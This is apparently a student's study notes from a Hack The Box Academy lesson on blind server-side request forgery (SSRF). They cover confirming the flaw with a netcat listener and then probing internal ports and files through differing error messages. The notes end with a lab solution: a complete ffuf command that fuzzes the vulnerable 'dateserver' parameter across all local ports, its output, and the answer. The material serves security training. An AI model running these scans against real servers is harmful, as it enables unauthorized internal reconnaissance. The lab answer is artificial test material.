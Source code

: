 ```yaml
---
sticker: lucide//server
---
```

In many real-world SSRF vulnerabilities, the response is not directly displayed to us. These instances are called `blind` SSRF vulnerabilities because we cannot see the response. As such, all of the exploitation vectors discussed in the previous sections are unavailable to us because they all rely on us being able to inspect the response. Therefore, the impact of blind SSRF vulnerabilities is generally significantly lower due to the severely restricted exploitation vectors.

---

## Identifying Blind SSRF

The sample web application behaves just like in the previous section. We can confirm the SSRF vulnerability just like we did before by supplying a URL to a system under our control and setting up a `netcat` listener:

```shell-session
smoothment@htb[/htb]$ nc -lnvp 8000

listening on [any] 8000 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 32928
GET /index.php HTTP/1.1
Host: 172.17.0.1:8000
Accept: */*
```

However, if we attempt to point the web application to itself, we can observe that the response does not contain the HTML response of the coerced request; instead, it simply lets us know that the date is unavailable. Therefore, this is a blind SSRF vulnerability:

![image](https://academy.hackthebox.com/storage/modules/145/ssrf/ssrf_blind_1.png)

---

## Exploiting Blind SSRF

Exploiting blind SSRF vulnerabilities is generally severely limited compared to non-blind SSRF vulnerabilities. However, depending on the web application's behavior, we might still be able to conduct a (restricted) local port scan of the system, provided the response differs for open and closed ports. In this case, the web application responds with `Something went wrong!` for closed ports:

![image](https://academy.hackthebox.com/storage/modules/145/ssrf/ssrf_blind_2.png)

However, if a port is open and responds with a valid HTTP response, we get a different error message:

![image](https://academy.hackthebox.com/storage/modules/145/ssrf/ssrf_blind_3.png)

Depending on how the web application catches unexpected errors, we might be unable to identify running services that do not respond with valid HTTP responses. For instance, we are unable to identify the running MySQL service using this technique:

![image](https://academy.hackthebox.com/storage/modules/145/ssrf/ssrf_blind_4.png)

Furthermore, while we cannot read local files like before, we can use the same technique to identify existing files on the filesystem. That is because the error message is different for existing and non-existing files, just like it differs for open and closed ports:

![image](https://academy.hackthebox.com/storage/modules/145/ssrf/ssrf_blind_5.png)

For invalid files, the error message is different:

![image](https://academy.hackthebox.com/storage/modules/145/ssrf/ssrf_blind_6.png)


# Question
---

![](Pasted image 20250212123042.png)

We know we are dealing with blind SSRF, when we try to point at an invalid resource of the server, we can see this:


![](Pasted image 20250212123247.png)

We get an error message saying `Something went wrong!`, what about if we point at a valid resource:

![](Pasted image 20250212123337.png)

We get a different error message, since we need to enumerate ports, we can use ffuf in the following way:

```
ffuf -w ports.txt:FUZZ -u http://10.129.70.117/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://127.0.0.1:FUZZ&date=2024-01-01" -fr 'Something went wrong!'
```

In order to create our `ports.txt` wordlist, we can use the following command:

```
seq 1 65535 > ports.txt
```

Once we've fuzzed, we get the following:

```
ffuf -w ports.txt:FUZZ -u http://10.129.70.117/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://127.0.0.1:FUZZ&date=2024-01-01" -fr 'Something went wrong!' -ic -c -t 200

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://10.129.70.117/index.php
 :: Wordlist         : FUZZ: /home/samsepiol/ports.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : dateserver=http://127.0.0.1:FUZZ&date=2024-01-01
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Regexp: Something went wrong!
________________________________________________

5000                    [Status: 200, Size: 52, Words: 8, Lines: 1, Duration: 111ms]
80                      [Status: 200, Size: 52, Words: 8, Lines: 1, Duration: 3977ms]
```


Answer is `5000`